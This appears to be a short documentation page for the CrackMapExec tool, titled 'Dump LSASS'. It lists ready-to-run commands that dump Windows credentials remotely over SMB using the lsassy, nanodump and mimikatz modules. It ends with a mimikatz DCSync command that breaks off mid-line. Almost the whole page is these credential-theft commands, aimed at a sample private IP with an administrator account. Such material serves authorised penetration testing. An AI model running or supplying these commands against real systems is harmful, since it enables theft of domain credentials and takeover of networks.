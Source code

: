 # Dump LSASS



Using the module Lsassy from [@pixis ](https://twitter.com/HackAndDo)you can dump remotely the credentials&#x20;

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M lsassy
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### Using nanodump

Using the module nanodump you can dump remotely the credentials&#x20;

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M nanodump
```

### Using Mimikatz (deprecated)

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Using the module Mimikatz, the powershell script Invoke-mimikatz.ps1 will be executed on the remote target

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M mimikatz
```

```
#~ cme smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:doma
```
